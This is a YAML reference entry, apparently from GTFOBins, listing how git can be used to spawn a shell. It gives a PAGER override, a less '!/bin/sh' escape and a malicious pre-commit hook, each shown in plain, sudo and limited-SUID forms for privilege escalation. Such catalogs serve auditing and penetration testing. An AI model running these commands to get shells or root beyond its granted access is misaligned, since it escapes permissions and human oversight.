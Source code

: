 ```yaml
---
functions:
  shell:
    - code: PAGER='sh -c "exec sh 0<&1"' git -p help
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        git help config
        !/bin/sh
    - description: Git hooks are merely shell scripts and in the following example the hook associated to the `pre-commit` action is used. Any other hook will work, just make sure to be able perform the proper action to trigger it. An existing repository can also be used and moving into the directory works too, i.e., instead of using the `-C` option.
      code: |
        TF=$(mktemp -d)
        git init "$TF"
        echo 'exec /bin/sh 0<&2 1>&2' >"$TF/.git/hooks/pre-commit.sample"
        mv "$TF/.git/hooks/pre-commit.sample" "$TF/.git/hooks/pre-commit"
        git -C "$TF" commit --allow-empty -m x
  sudo:
    - code: sudo PAGER='sh -c "exec sh 0<&1"' git -p help
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo git -p help config
        !/bin/sh
    - description: The help system can also be reached from any `git` command, e.g., `git branch`. This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo git branch --help config
        !/bin/sh
    - description: Git hooks are merely shell scripts and in the following example the hook associated to the `pre-commit` action is used. Any other hook will work, just make sure to be able perform the proper action to trigger it. An existing repository can also be used and moving into the directory works too, i.e., instead of using the `-C` option.
      code: |
        TF=$(mktemp -d)
        git init "$TF"
        echo 'exec /bin/sh 0<&2 1>&2' >"$TF/.git/hooks/pre-commit.sample"
        mv "$TF/.git/hooks/pre-commit.sample" "$TF/.git/hooks/pre-commit"
        sudo git -C "$TF" commit --allow-empty -m x
  limited-suid:
    - code: PAGER='sh -c "exec sh 0<&1"' ./git -p help
---
```

